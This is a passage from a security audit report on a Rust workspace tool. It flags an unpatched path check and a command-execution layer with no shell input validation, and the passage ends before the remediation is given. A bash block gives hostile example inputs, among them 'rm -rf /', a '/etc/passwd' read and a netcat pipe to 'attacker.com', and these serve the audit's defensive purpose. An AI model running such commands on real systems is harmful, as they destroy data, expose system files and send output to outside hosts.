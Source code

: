 ```rust
    if !canonical_path.starts_with(&canonical_workspace) {
        return Err(Error::InvalidPath(
            "Path must be within workspace".to_string(),
        ));
    }

    state.working_dir = canonical_path;
    Ok(())
}
```

**Status**: ❌ **UNPATCHED - IMMEDIATE FIX REQUIRED**

---

## High-Severity Gaps

### 2. No Command Execution Validation (HIGH)

**Location**: Command execution layer (not implemented)
**CVSS Score**: 8.8 (High)

#### Vulnerability Description

Commands are passed directly to the shell without validation. The system accepts:

```bash
ls; rm -rf /
cat file.txt && whoami
echo test || cat /etc/passwd
ls $(whoami)
cat `whoami`
ls | nc attacker.com 1337
```

#### Current State

- ✅ Message schema validates structure (type, data fields)
- ❌ **NO command syntax validation**
- ❌ **NO shell metacharacter filtering**
- ❌ **NO command whitelist/blacklist**
- ❌ **NO argument validation**

#### Attack Vectors

1. **Command Chaining**: `; && || |`
2. **Command Substitution**: `$() \`\``
3. **Background Execution**: `&`
4. **Redirection**: `> < >>`
5. **Glob Expansion**: `* ? []`

#### Remediation Required

Implement command validator in execution layer:
